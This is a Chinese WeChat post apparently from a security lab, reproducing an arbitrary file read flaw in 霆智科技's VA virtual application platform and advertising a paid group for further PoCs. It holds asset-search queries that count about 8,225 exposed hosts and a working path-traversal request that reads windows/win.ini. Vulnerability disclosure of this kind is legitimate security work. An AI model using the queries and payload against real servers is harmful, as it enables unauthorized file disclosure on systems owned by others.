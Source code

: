 #  【漏洞复现】霆智科技 VA虚拟应用平台 任意文件读取漏洞

[ 天擎攻防实验室 ](javascript:void\(0\);)

**天擎攻防实验室** ![]()

微信号 gh_2fb077348503

功能介绍 天擎攻防实验室，致力于分享最新漏洞情报以及复现!

____

___发表于_

收录于合集

#漏洞复现 16 个

#sql注入 3 个

**0x01  阅读须知**

**天擎攻防实验室的技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。
本文所提供的工具仅用于学习，禁止用于其他！！！** ****

 **0x02 漏洞描述**

（一） VA虚拟应用平台 ** ******

霆智科技的VA虚拟应用平台是一个创新的技术平台，旨在为用户提供虚拟助手（Virtual
Assistant）的功能和服务。虚拟助手是一种人工智能系统，通过自然语言处理、机器学习和其他相关技术，能够与用户进行对话，并执行各种任务和服务。

![](https://gitee.com/fuli009/images/raw/master/public/20230714180615.png)

FOFA语法：

  * 

    
    
    body="EAA益和应用接入系统"

hunter语法：

  * 

    
    
    web.body="EAA益和应用接入系统"

 ** ** ** ** **  hunter共 **8,225** 条资产** **  
**  

![](https://gitee.com/fuli009/images/raw/master/public/20230714180616.png)

  
（二）  漏洞poc

  *   *   *   *   * 

    
    
      
    GET /..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/windows/win.ini HTTP/1.1Host:  
      
    

![](https://gitee.com/fuli009/images/raw/master/public/20230714180617.png)

 **更多漏洞POC发布在知识星球**

![](https://gitee.com/fuli009/images/raw/master/public/20230714180619.png)  

  

 ** **  星球的最近主题和星球内部工具一些展示****

![]() ** ******

![](https://gitee.com/fuli009/images/raw/master/public/20230714180620.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20230714180621.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20230714180622.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20230714180623.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230714180624.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230714180625.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230714180626.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20230714180627.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20230714180619.png)  

  

 ** **星球内部成员的出货****

 **  
** **  
**

![](https://gitee.com/fuli009/images/raw/master/public/20230714180629.png)

 **  
** **  
**  

![](https://gitee.com/fuli009/images/raw/master/public/20230714180630.png)

 **  
** **  
** **Web安全漏洞最新1day分享** **漏洞挖掘技巧分享**  
 **** **   加入星球请扫描下方二维码，更多精彩，敬请期待**

  

![](https://gitee.com/fuli009/images/raw/master/public/20230714180632.png)

  

  

  

  

  

 **0x03  修复方案**

 **官方修复缓解措施**

 **补丁链接**

 **http://www.tzfse.com.cn/**

 ****

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

